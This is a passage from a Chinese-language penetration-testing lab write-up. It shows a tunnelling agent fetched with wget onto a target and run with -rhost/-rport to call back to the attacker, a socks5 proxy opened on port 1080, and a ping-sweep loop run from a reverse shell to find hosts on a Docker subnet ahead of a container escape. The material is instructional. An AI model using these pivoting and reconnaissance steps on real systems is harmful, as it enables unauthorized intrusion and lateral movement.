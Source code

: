 
然后开启服务 通过wget 下载到靶机中

```cobol
chmod 777 agent_linux_x64
./agent_linux_x64 -rhost 10.8.0.6 -rport 9999
```

然后回到主机

```cobol
show
 
goto 1
 
socks 1080
```

这样我们就在1080开启了socks5代理

然后我们去链接



<img src="https://i-blog.csdnimg.cn/blog_migrate/a520485c6df9a356127e5de2b8bae365.png" alt="" style="max-height:347px; box-sizing:content-box;" />


这里我们首先要知道 这个docker对应的内网ip是多少

ifconfig

```cobol
172.17.0.3
```

我们去访问172.17.0.3:5000



<img src="https://i-blog.csdnimg.cn/blog_migrate/c220f19a32055bf9165ca9ef0ac02e1e.png" alt="" style="max-height:533px; box-sizing:content-box;" />


发现是一样的

所以这里就是我们对应的内网ip了

我们要如何实现docker逃逸呢

首先我们需要探活

## 内网shell脚本探活

```bash
for i in $(seq 1 254);do ping -c 1 172.17.0.$i;done
```

这里我们无法通过socks代理出ping 因为位于不同层 所以要么通过反弹shell 获取ping

要么代理出来 nmap 但是我nmap扫除一大堆不是的 有可能是靶场的问题 所以我选择在反弹shell中 执行 shell脚本

```cobol
这里获取了
 
172.17.0.1，172.17.0.2，172.17.0.3
 
这些ip
```
